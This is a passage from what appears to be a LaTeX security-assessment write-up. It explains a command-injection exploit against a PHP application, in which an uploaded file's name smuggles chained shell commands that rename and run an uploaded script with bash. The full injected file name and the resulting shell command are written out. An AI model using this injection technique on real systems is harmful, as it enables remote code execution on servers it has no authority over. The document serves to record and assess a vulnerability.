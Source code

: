 \begin{lstlisting}[caption=Change to \textit{/tmp/}, label=listing:change_to_tmp]
&& dir=`mktemp` && cd dir && cd .. 
\end{lstlisting}

Now we are in the directory were our shell script was uploaded. Now we have to execute it. Unfortunately this is pretty hard, because we cannot simply reference the script via the file name, because the file name is also the command we want to inject and we would then get into some recursive loop specifying the hole file name. The solution is to rename the file to some easier name like\textit{script.sh} and then execute it, illustrated in Listing \ref{listing:rename_file}.

\begin{lstlisting}[caption=Rename the file, label=listing:rename_file]
 ... && mv *.sh script.sh && bash script.sh
\end{lstlisting}
 
 We are moving the file \textit{*.sh} to script.sh (Our uploaded file ends with \textit{.sh}).
 
 Listing \ref{listing:complete_file_name} shows the complete file name\footnote{The \textit{rm -rf script.sh} is used to delete any script which was uploaded by a former attack, otherwise renaming the file would fail because \textit{script.sh} would already exist.} which we have used to execute our code.
 
\begin{lstlisting}[caption=Complete File Name, label=listing:complete_file_name]
&& dir=`mktemp` && cd dir && cd .. && rm -rf script.sh && mv *.sh script.sh && bash script.sh
\end{lstlisting}

The command sent to the shell by the PHP code would look similar to this:

\begin{lstlisting}[caption=Shell Command executed by PHP, label=listing:shell_comannd]
./cparser && dir=`mktemp` && cd dir && cd .. && rm -rf script.sh && mv *.sh script.sh && bash script.sh
\end{lstlisting}

\subsection{Likelihood}
It took us hours to get this exploit working, but with some basic knowledge of the Unix Shell and Linux this exploit was possible with moderate effort.

